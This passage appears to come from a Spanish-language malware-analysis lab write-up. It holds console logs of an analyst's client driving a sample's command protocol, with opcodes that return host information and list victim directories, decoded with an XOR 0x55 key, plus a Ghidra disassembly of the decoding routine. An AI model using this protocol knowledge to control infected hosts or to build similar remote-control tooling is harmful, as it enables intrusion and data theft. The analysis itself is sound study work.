        ASCII: b'10.0.0.4........................H. . . . . . . . .h.(.(.(.(. . . . . . . . . . . . . . . . . . .H...............................................................................................$...Rt.w;..w3w....p.@...............................;..;........DESKTOP-CTQQHGT....."..!...... ... ....................... ... . ...^.............q.........g...H.......z.p...............0.......................p.............".....p...p.......................................................p.H.............p...p...,.....'
        HEX  : 31 30 2e 30 2e 30 2e 34 00 01 00 00 d8 f9 19 00 e4 04 00 00 00 00 00 00 00 00 00 00 e4 04 00 00 48 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 68 02 28 02 28 02 28 02 28 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 48 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 81 03 81 03 81 03 81 03 81 03 81 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 24 fc 19 00 52 74 16 77 3b 8f 16 77 33 77 bd d1 00 00 70 00 40 04 00 00 c0 fc 19 00 10 02 10 02 10 02 82 03 82 03 82 03 82 03 82 03 82 03 02 03 02 03 02 03 3b 00 00 3b 02 03 02 03 02 03 02 03 44 45 53 4b 54 4f 50 2d 43 54 51 51 48 47 54 00 02 03 02 03 22 03 00 21 10 02 10 02 10 02 20 02 00 02 20 02 10 02 02 03 10 02 10 02 10 02 10 02 00 02 10 02 01 03 10 02 01 03 20 02 01 03 20 02 20 02 10 02 5e 02 00 00 99 02 00 00 10 02 10 02 d8 b6 71 00 02 03 10 02 87 00 00 00 67 fd ff ff 48 02 10 02 10 02 10 02 7a 9c 70 00 10 02 10 02 10 02 10 02 12 03 10 02 10 02 30 02 10 02 10 02 10 02 10 02 14 02 14 02 99 02 00 00 10 02 10 02 00 00 70 00 12 03 10 02 10 02 10 02 ff 07 00 00 22 03 00 00 c0 00 70 00 f0 ab 70 00 01 03 01 03 01 03 01 03 00 00 00 00 00 00 00 00 01 03 01 03 89 00 00 00 01 03 01 03 01 03 01 03 99 02 00 00 01 03 01 03 a2 02 00 00 00 00 00 00 01 03 02 03 a0 e7 70 00 48 04 00 00 02 03 02 03 02 03 02 03 c0 00 70 00 00 00 70 00 02 00 2c 00 01 00 00 00
    [*] Enviando opcode 1...
    [*] Enviado comando (260 bytes), opcode=1
    [*] Recibido (256 bytes):
        ASCII: b'v.od.og.ofvUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU'
        HEX  : 76 16 6f 64 11 6f 67 0f 6f 66 76 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55
    [*] Bloque de 256B (exfil post-op1) detectado. Enviando opcode 2 con patrón…
    [*] Enviado opcode=2 (260 bytes) con patrón: b'C:\\Users\\usuario\\Desktop\\*'
    [*] idle timeout; keeping connection open...
    [*] idle timeout; keeping connection open...
    [*] Recibido (2 bytes):
        ASCII: b'o.'
        HEX  : 6f 00
    [*] STATUS inicial opcode2 (2B): b'o\x00' HEX=6f 00
    [*] Hay coincidencias. Entrando en modo LISTING (lectura de frames 0x204)…
    [*] idle timeout; keeping connection open...
    [*] Recibido (516 bytes):
        ASCII: b'10&>!:%{<;<UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUOpciones de configuraci.n.......................................0K..............................................................2025-08-04 11:04:36.................................................................................................................'
        HEX  : 31 30 26 3e 21 3a 25 7b 3c 3b 3c 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 4f 70 63 69 6f 6e 65 73 20 64 65 20 63 6f 6e 66 69 67 75 72 61 63 69 f3 6e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 31 3a 30 34 3a 33 36 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'desktop.ini.....................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 4f 70 63 69 6f 6e 65 73 20 64 65 20 63 6f 6e 66 69 67 75 72 61 63 69 f3 6e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 31 3a 30 34 3a 33 36 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
        [+] ACK enviado (2B): 00 00
    [*] idle timeout; keeping connection open...
    [*] Recibido (516 bytes):
        ASCII: b'34>0;0!.9:2&{9;>UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUAcceso directo..................................................0K..............................................................2025-08-04 16:55:39.................................................................................................................'
        HEX  : 33 34 3e 30 3b 30 21 0a 39 3a 32 26 7b 39 3b 3e 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 41 63 63 65 73 6f 20 64 69 72 65 63 74 6f 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 36 3a 35 35 3a 33 39 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'fakenet_logs.lnk................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 41 63 63 65 73 6f 20 64 69 72 65 63 74 6f 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 36 3a 35 35 3a 33 39 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
        [+] ACK enviado (2B): 00 00
    [*] Recibido (516 bytes):
        ASCII: b'.47.efxg{849"4\'0UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUArchivo MALWARE.................................................36K.............................................................2025-08-15 09:07:30.................................................................................................................'
        HEX  : 19 34 37 0a 65 66 78 67 7b 38 34 39 22 34 27 30 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 41 72 63 68 69 76 6f 20 4d 41 4c 57 41 52 45 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 33 36 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 31 35 20 30 39 3a 30 37 3a 33 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'Lab_03-2.malware................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 41 72 63 68 69 76 6f 20 4d 41 4c 57 41 52 45 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 33 36 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 31 35 20 30 39 3a 30 37 3a 33 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
        [+] ACK enviado (2B): 00 00
    [*] Recibido (516 bytes):
        ASCII: b"....'4;&6'<%!&UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUDIR.............................................................................................................................2025-08-18 14:08:16................................................................................................................."
        HEX  : 05 06 0a 01 27 34 3b 26 36 27 3c 25 21 26 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 44 49 52 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 31 38 20 31 34 3a 30 38 3a 31 36 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'PS_Transcripts..................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 44 49 52 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 31 38 20 31 34 3a 30 38 3a 31 36 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
        [+] ACK enviado (2B): 00 00
    [*] Recibido (516 bytes):
        ASCII: b'.::9&UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUDIR.............................................................................................................................2025-08-04 18:31:13.................................................................................................................'
        HEX  : 01 3a 3a 39 26 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 44 49 52 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 38 3a 33 31 3a 31 33 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'Tools...........................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 44 49 52 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 38 3a 33 31 3a 31 33 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
        [+] ACK enviado (2B): 00 00
    [*] Recibido (516 bytes):
        ASCII: b'UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU....................................................................................................................................................................................................................................................................'
        HEX  : 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'................................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        [+] ACK enviado (2B): 00 00


```

_________________________


```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00401a20(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00401a20(R)  
             undefined         Stack[-0x624   local_624                               XREF[2]:     00401a46(*), 
                                                                                                   00401a4c(*)  
                             FUN_00401a20                                    XREF[1]:     FUN_004012f0:00401729(c)  
        00401a20 8b 54 24 08     MOV        EDX,dword ptr [ESP + param_2]                    OPCODE 2
        00401a24 81 ec 44        SUB        ESP,0x644
                 06 00 00
        00401a2a 33 c0           XOR        EAX,EAX
        00401a2c 53              PUSH       EBX
        00401a2d 57              PUSH       EDI
                             LAB_00401a2e                                    XREF[1]:     00401a3d(j)  
        00401a2e 8a 1c 10        MOV        BL,byte ptr [EAX + EDX*0x1]
        00401a31 80 f3 55        XOR        BL,0x55
        00401a34 88 1c 10        MOV        byte ptr [EAX + EDX*0x1],BL
        00401a37 40              INC        EAX
        00401a38 3d 00 01        CMP        EAX,0x100
                 00 00
        00401a3d 7c ef           JL         LAB_00401a2e
        00401a3f b9 50 00        MOV        ECX,0x50
                 00 00
        00401a44 33 c0           XOR        EAX,EAX
        00401a46 8d 7c 24 28     LEA        EDI=>local_624,[ESP + 0x28]
        00401a4a f3 ab           STOSD.REP  ES:EDI
